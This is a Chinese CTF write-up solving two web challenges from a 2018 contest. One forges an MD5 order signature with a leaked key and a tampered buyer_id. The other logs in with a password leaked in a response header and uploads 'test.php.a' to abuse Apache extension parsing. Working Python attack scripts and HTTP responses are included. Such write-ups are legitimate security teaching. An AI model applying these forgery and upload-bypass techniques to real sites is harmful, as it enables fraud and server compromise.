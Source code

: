 ```yaml
---
title: 安恒月赛（十）web-2题writeup
date: 2018.10.27 21:54
tags:
  - CTF
  - 信息安全
  - web安全
  - write-up
categories: 信息安全
---
```

哎 ，好久没接触信安了，今天恰好看到安恒月赛ctf。想着稍微试试玩玩吧，才写了两题web，其他没看（其他方向暂时不会额）。随手记录下
<!-- more -->
## shop
> http://101.71.29.5:10006/

这题是Django的简单审计题，逻辑绕过。（后才知道题目原意考哈希长度扩展攻击）


![index主页](https://upload-images.jianshu.io/upload_images/14657587-b38a238f1be76d4b.jpg?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


下载源码看了几个views视图函数。简单了解这个商场订单流程。关键是这里

![sign签名方式](https://upload-images.jianshu.io/upload_images/14657587-ad460f3a10a38f90.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


sign签名方法。后再看

![check验证支付订单](https://upload-images.jianshu.io/upload_images/14657587-f9235eb24cc2267b.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)




发现在checkPayment函数中，用户是通过前端传过来的buyer_id来确定用户id再去数据库找到这个用户，而没有用自带的request.user方法，这样就能利用了，伪造超级用户付款。因为超级用户扣款并不用扣point，（上面逻辑中写了），查看到备份数据库（db.sqlite3.bak）中的各种信息，构造如下

```python
from hashlib import md5
# RANDOM_SECRET_KEY_FOR_PAYMENT_SIGNATURE = "zhinianyuxin".encode('utf-8')
with open('secret.key', 'rb') as f:
	RANDOM_SECRET_KEY_FOR_PAYMENT_SIGNATURE = f.read()
form = {
		'order_id': 706,
		'buyer_id': 16,
		'good_id': 38,
		'buyer_point': 300,
		'good_price': 888,
		'order_create_time': 1540646597.474468
	}
str2sign = RANDOM_SECRET_KEY_FOR_PAYMENT_SIGNATURE + '&'.join([f'{i}={form[i]}' for i in form]).encode('utf-8')
sign = md5(str2sign).hexdigest()
print(sign)


-------------------------------------------------
1caeb54aacd80944e6b3d836f9b773e6
```

在前端修改signature还有各个input中的值，check是从request.body中取回来的。修改成和构造一样的值

![前端修改保持和构造值一样](https://upload-images.jianshu.io/upload_images/14657587-f38a5e18a8a350aa.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

提交得flag

![flag](https://upload-images.jianshu.io/upload_images/14657587-a4bc52b9be408e78.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)



## 手速要快

> http://101.71.29.5:10010/

简单正常login

![1540630910062.png](https://upload-images.jianshu.io/upload_images/14657587-7fc6a8b40a3c1a31.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


返回包头部

```http
HTTP/1.1 200 OK
Date: Sat, 27 Oct 2018 17:02:08 GMT
Server: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/7.1.14
X-Powered-By: PHP/7.1.14
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
password: 5fc4fe400ae12342fb01ca3da55dc95b
Vary: Accept-Encoding,User-Agent
Content-Encoding: gzip
X-Service-Uid: app-1.1.1
Content-Length: 231
Keep-Alive: timeout=2, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
```

有password这个字段。那上脚本吧，



> 访问后使用头部password的字段再post提交

```python
import requests

r = requests.get('http://101.71.29.5:10010/index.php?login=')
password = r.headers.get("password")
# print(password)
cookie = r.cookies['PHPSESSID']
# print(r.headers.get("password"))
# print(r.cookies['PHPSESSID'])
# print(r.text,'\n',r.headers)

data = {'password': r.headers.get("password"),'submit_password':''}
r = requests.post('http://101.71.29.5:10010/login.php',data=data,cookies={'PHPSESSID':cookie})
print(r.text,'\n',r.headers)
```

打印出来的源代码为

```html
<!DOCTYPE html>
<html lang="en">
<head>
        <meta charset="UTF-8">
        <title>can you find the flag?</title>
</head>
<body>
                <form action='upload.php' method='POST' enctype='multipart/form-data'>
                <input type='file' name='file'>
                <button type='submit_file' name='submit_file'>upload</button>
                </form><form action='logout.php' method='POST'>
                <button type='logout'name='logout'>logout</button>
                </form></body>
</html>
```



> 访问后使用头部password的字段再post提交，再提交上传文件

最终脚本为

```python
import requests

r = requests.get('http://101.71.29.5:10010/index.php?login=')
password = r.headers.get("password")
# print(password)
cookie = r.cookies['PHPSESSID']
# print(r.headers.get("password"))
# print(r.cookies['PHPSESSID'])
# print(r.text,'\n',r.headers)

data = {'password': r.headers.get("password"),'submit_password':''}
r = requests.post('http://101.71.29.5:10010/login.php',data=data,cookies={'PHPSESSID':cookie})

files = {
	'file':("test.php.a",open('test.php','r'),'multipart/form-data')
}
data = {'submit_file':''}
r = requests.post('http://101.71.29.5:10010/upload.php',cookies={'PHPSESSID':cookie},data=data,files=files)
print(r.text,'\n',r.headers)
```

返回内容

```http
You upload is save at:uploads/test.php.a
 {'Date': 'Sat, 27 Oct 2018 15:38:18 GMT', 'Server': 'Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/7.1.14', 'X-Powered-By': 'PHP/7.1.14', 'Expires': 'Thu, 19 Nov 1981 08:52:00 GMT', 'Cache-Control': 'no-store, no-cache, must-revalidate', 'Pragma': 'no-cache', 'Vary': 'User-Agent', 'X-Service-Uid': 'app-1.1.1', 'Content-Length': '40', 'Keep-Alive': 'timeout=2, max=100', 'Connection': 'Keep-Alive', 'Content-Type': 'text/html; charset=UTF-8'}
```



> 上传文件？

php后缀不能直接上传。看服务器是Apache的，解析漏洞，于是上传test.php.a



![ah3.jpg](https://upload-images.jianshu.io/upload_images/14657587-86d942814ed1f13d.jpg?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

